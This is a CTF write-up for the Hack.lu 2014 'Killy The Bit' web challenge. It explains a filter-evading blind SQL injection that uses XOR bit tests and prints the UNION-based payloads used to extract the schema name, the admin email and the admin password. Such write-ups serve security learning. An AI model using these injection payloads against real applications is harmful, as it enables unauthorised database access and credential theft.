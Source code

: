 ## Hack.lu CTF 2014 - Killy The Bit (Web 200)
##### 21-23/10/2014 (48hr)
___

### Description: 
Killy the Bit is one of the dangerous kittens of the wild west. He already flip-
ped bits in most of the states and recently hacked the Royal Bank of Fluxembourg. 
All customer of the bank are now advised to change their password for the next 
release of the bank's website which will be launched on the 23.10.2014 10:01 CEST. 

Killy the Bit stands in your debt and sent the following link. Can you break the 
password generation process in order to get access to the admin account?	

___
### Solution

The source code reveals that this is an Blind SQL injection. The filters are: sleep, 
benchmark, and, or, |, &. However things can become more difficult because we can't use
names like ORD() (contains 'or'), or INFROMATION_SCHEMA.tables (contains 'or' too). Let's
try to craft 2 valid sql injection statements:

First we create a statement that returns TRUE:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=1--  
```
	
The page that returned to user, contains the following response: "A new password was 
generated and sent to your email address!". Now let's create the FALSE statement:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=0--  
```

The page that returned contains this time the message: "We couldn't find your username!
Are you sure it is ' UNION ALL SELECT name, email FROM user WHERE 1=0-- ?"

Awesome! Now we have a way to extract data from the database. We can extract 1 bit of 
information at a time. The classic way to do this is by reading a character and getting 
the value of each bit (we need 8 requests for each character). In order to do this we
need the & operator:
```
	if( character & 128 == 0 ) 1st bit = 0. else 1st bit = 1
	if( character & 64  == 0 ) 2nd bit = 0. else 2nd bit = 1
	.... and so on.
```
	
The other way is to do a binary search (< and > are allowed), but we'll do something 
different: & and | are not allowed, but XOR is allowed: ^

So, how we can check the value of a specified bit using XOR? Consider a number x. Then:
```
	if( x^128 > x ) then 1st bit = 0 else 1st bit = 1
	if( x^64  > x ) then 2nd bit = 0 else 2nd bit = 1
	.... and so on.
```
	
But why this is right? If MSBit of x is 1 then by XORing it with 128=1000000(2) we'll flip
the MSBit. If the bit was 0 then by flipping it the result will be greater that the initial
number. But if the bit was 1, after flipping will be 0, and the result will be smaller than
the initial value.
Now, let's start by finding the database name. The query we insert is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR(SCHEMA(),$_i_$,1))>
		     (ASCII(SUBSTR(SCHEMA(),$_i_$,1))^$_mask_$)--+	
	&submit=Generate#
```
	
Where the variable $_i_$ gets the values 1,2,3... and the variable $_mask_$ the values 128,
64,32,16,8,4,2 and 1. After executing the script (see below) we can get the database name:
```
	ctf-level
```
	
Now let's get admin's email. The query is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
	&submit=Generate#
```

After many requests, we get the admin's email: admin@bankoffluxembourg.com
But we want admin's password. We have a table, and it has 2 columns "name" and "email". It's very
like to has a column for the password. Let's try common names for password columns: "pass", "pw", 
"passwd", "password" (cannot be used -> contains 'or'). We find that the correct column name is
"passwd". Now let's get the admin's password:

```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
		&submit=Generate#
```

After many requests, we get the flag: **flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}**.


___

After getting the flag, the authors post the following hints:

Hint: Blind SQLi is not a good solution. You can get the correct and complete flag with one single request!

Hint: The password's column name is 'passwd'.

:(

___
